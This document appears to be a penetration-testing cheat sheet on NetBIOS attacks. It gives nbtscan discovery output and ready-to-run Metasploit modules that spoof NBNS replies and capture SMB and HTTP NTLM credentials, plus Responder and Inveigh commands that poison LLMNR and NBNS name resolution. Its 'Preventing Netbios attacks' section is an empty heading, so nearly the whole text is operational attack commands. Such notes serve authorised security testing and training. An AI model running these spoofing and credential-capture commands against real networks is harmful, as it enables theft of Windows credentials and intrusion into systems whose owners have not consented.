 # Netbios

### Broadcast discovery

```
nbtscan 172.18.2.0/24
	
172.18.2.9:GCDTA0000:00U
172.18.2.9:WORKGROUP:00G
172.18.2.9:GCDTA0000:20U
172.18.2.9:MAC:00-23-7d-aa-72-c2
```

### Netbios Spoofing

#### Metasploit

```
use auxiliary/server/capture/smb
set CAINPWFILE /netbios/cain.
set JOHNPWFILE /netbios/john. 

set LOGFILE /netbios/SMB_LOG.txt
set SRVHOST 10.222.101.213
run
	
use auxiliary/server/capture/http_ntlm
set CAINPWFILE /netbios/cain-http
set JOHNPWFILE /netbios/john-http
set SRVHOST 10.222.101.213
set SRVPORT 80
set URIPATH /
run
	
use auxiliary/spoof/nbns/nbns_response
set INTERFACE eth0
set SPOOFIP 10.222.101.213
run
```

#### Responder

```
responder -I eth0 -w -f -v
```

#### Inveigh - (Powershell Responder)

requires privileged user.

https://n0where.net/windows-powershell-llmnrnbns-spoofer-inveigh\
https://github.com/Kevin-Robertson/Inveigh

```
cd C:\Users\Leon\powermenu\Inveigh\Inveigh-master
Import-Module .\Inveigh.psm1
```

To execute with default settings

```
Invoke-Inveigh
```

To execute with features enabled/disabled

```
Invoke-Inveigh -LLMNR Y -NBNS Y -HTTP Y -HTTPS Y -SMB Y -ConsoleOutput Y -IP <yourIP>
```

You must Stop Inveigh manually

```
Stop-Inveigh
```

### Preventing Netbios attacks

